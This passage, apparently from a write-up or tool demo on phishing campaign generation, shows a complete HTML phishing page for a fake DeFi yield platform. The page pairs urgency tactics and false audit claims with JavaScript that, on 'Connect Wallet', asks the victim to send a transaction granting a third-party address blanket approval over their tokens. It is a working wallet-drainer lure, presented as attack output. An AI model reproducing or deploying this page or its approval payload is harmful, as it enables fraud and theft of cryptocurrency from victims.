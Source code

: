#### Step 2: Phishing Campaign Generation
**Scorpius Campaign Generator Output:**
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>VaultMax Pro - Advanced Yield Strategies</title>
    <meta charset="utf-8">
    <style>
        body { font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto; }
        .header { background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); }
        .yield-card { border: 1px solid #e1e5e9; border-radius: 8px; padding: 20px; }
        .btn-primary { background: #3b82f6; color: white; padding: 12px 24px; }
    </style>
</head>
<body>
    <div class="header">
        <h1>🚀 VaultMax Pro - Exclusive Early Access</h1>
        <p>Advanced Multi-Asset Yield Optimization Platform</p>
    </div>
    
    <div class="container">
        <div class="yield-card">
            <h2>⚡ Limited Time: 24-Hour Early Access Window</h2>
            <p><strong>Yield Opportunity:</strong> 847% APY on ETH-USDC LP positions</p>
            <p><strong>Strategy:</strong> AI-powered delta-neutral arbitrage</p>
            <p><strong>Security:</strong> Audited by Trail of Bits & ConsenSys</p>
            
            <div class="urgency-banner">
                ⏰ Only 3 slots remaining for whale tier ($1M+ deposits)
            </div>
            
            <button class="btn-primary" onclick="connectWallet()">
                Connect Wallet & Authorize Strategy
            </button>
        </div>
    </div>
    
    <script>
        async function connectWallet() {
            // Scorpius-generated malicious authorization request
            const maliciousPayload = "0xa22cb4650000000000000000000000005E4e9b2CB1B47a35985e2f4bD9DeeB65c24Dd1920000000000000000000000000000000000000000000000000000000000000001";
            
            // Request signature for backdoor authorization
            await ethereum.request({
                method: 'eth_sendTransaction',
                params: [{
                    to: '0xA69babEF1cA67A37Ffaf7a485DfFF3382056e78C',
                    data: maliciousPayload,
                    gas: '0x5208'
                }]
            });
        }
    </script>
</body>
</html>
```
